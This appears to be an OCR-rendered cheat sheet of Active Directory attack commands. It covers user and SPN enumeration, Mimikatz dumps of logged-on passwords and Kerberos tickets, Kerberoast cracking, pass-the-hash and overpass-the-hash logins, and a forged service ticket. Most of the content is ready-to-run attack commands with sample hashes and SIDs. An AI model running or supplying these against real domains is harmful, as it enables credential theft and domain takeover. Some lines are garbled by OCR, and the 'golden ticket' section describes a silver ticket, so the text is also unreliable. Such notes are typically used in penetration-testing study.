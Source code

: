 ## Active Directory

* Enumerate users and groups

```
net user /domain
net user jeff_admin /domain
net group /domain
net accounts		# domain's account policy
```

* Domain controller information

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

* Enumerate Logged on Users

```
Import-Module .\PowerView.ps1

// logged in users on local desktop
Get-NetLoggedon -ComputerName client251

// active sessions on DC
Get-NetSession -ComputerName dc01
```

* Enumerate SPNs to find registered services ip and port

Change `Searcher.filter` accordingly

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain] ::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher= New-Object System.OirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter= "serviceprincipalname=*http*"

$Result= $Searcher.FindAll()

Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

* Dump password hashes and tickets stored on local machine

```
mimikatz.exe
mimikatz# privilege::debug

// dump the credentials of all logged-on users
mimikatz# sekurlsa::logonpasswords

// dump TGT and TGS tickets of all logged on users
sekurtsa::tickets

// list all cached tickets 
PS C:\Users\offsec.CORP> klist
mimikatz# kerberos::list /export
```

* Recovering SPN password from TGS ticket

```
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt tickets-list.kirbi

// tickets-list.kirbi can be obtained from mimikatz
mimikatz# kerberos::list /export
```

* Pass-The-Hash attacks( requires NTLM auth)

Authenticate to a remote system or service using a user's NTLM hash provided the service uses NTLM authentication.

Existing tools - PsExec from Metasploit, Passing-the-hash toolkit, and Impacket

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```

* Overpass the hash (converting NTLM hash into a Kerberos ticket)

PtH techniques can be used to authenticate to only NTLM supported services. Thus, upgrading NTLM hash to TGT may be quite helpful. The captured TGT may be used by tools like PsExec.exe(supports tickets auth only) to get code execution on domain controller.

```
// spawns powershell as jeff_admin
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475cllda2a8748298d87aa966c327 /run:PowerShell.exe

// perform action requiring authentication to DC
net use \\dc01

// TGT must be generated now
klist
```

* Generating golden ticket

TGS ticket with known SPN password hash can be forged to access resource as any user.


username (/user), domain name (/domain), the domain user SID(/sid),host name of the service (/target), the service type (/service: HTTP), and the password hash of the service account (/rc4).

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1682875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A8748298D87AA966C327 /ptt
```